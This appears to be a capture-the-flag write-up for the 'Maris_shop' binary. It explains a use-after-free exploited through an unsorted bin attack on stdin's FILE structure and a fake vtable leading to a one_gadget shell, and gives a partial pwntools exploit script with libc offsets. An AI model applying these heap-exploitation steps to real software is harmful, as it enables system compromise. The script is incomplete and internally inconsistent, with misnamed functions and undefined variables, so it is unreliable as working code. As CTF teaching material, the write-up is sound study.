 In add func, program gets user input, which is the index of add item and check whether input item is already in cart.
Program do not check whether the pointer in cart array is freed. We can modify `cart[i]->amount`, which is the bk pointer of unsorted chunk. With unsorted bin attack, we overwrite _IO_buf_end of stdin FILE structure with main_arena + 88, leading to overwriting the entire structure. we can make fake vtable with one_gadget and get shell:)

```
from pwn import *

stdin_buf_end_offset = 0x3c4920
vtable_offset = 0x3c36e0
one_gadget_offset = 0xf02a4  # 0x45216 0x4526a 0xf02a4 0xf1147

p = process('./Maris_shop', env={'LD_PRELOAD': './libc.so.6'})


def overflow():
    p.sendlineafter('Your choice:', str(1))
    p.recvuntil('---- ')
    price = int(p.recvuntil('\n', drop=True))
    p.sendlineafter('Which item?:', '1')
    p.sendlineafter('Amount?:', str(0xa0000000 / price))
    p.sendlineafter('Your choice:', '4')
    p.sendlineafter('Your choice:', '1')
    p.sendlineafter('Which item?:', '0')
    p.recvuntil('Done!\n\n')


def unsorted_bin_attack():
    p.sendlineafter('Your choice:', str(1))
    result = p.recvuntil('Which item?:').split('\n')
    del result[0]
    del result[-1]

    for item in result:
        if item_name in item:
            return item[0], result
    return None, result


def is_in_cart(result):
    null_idx = 1

    while True:
        for item in result:
            for item_in_cart in items_in_cart:
                if item_in_cart in item:
                    return null_idx
            null_idx = null_idx + 1
        return None


def add(idx, amount):
    p.sendlineafter('Your choice:', str(1))
    p.sendlineafter('Which item?:', str(idx))
    p.sendlineafter('?:', str(amount))
    p.recvuntil('Done!\n\n')


def remove(idx):
    p.sendlineafter('Your choice:', str(2))
    p.sendlineafter('Which item?:', str(idx))

```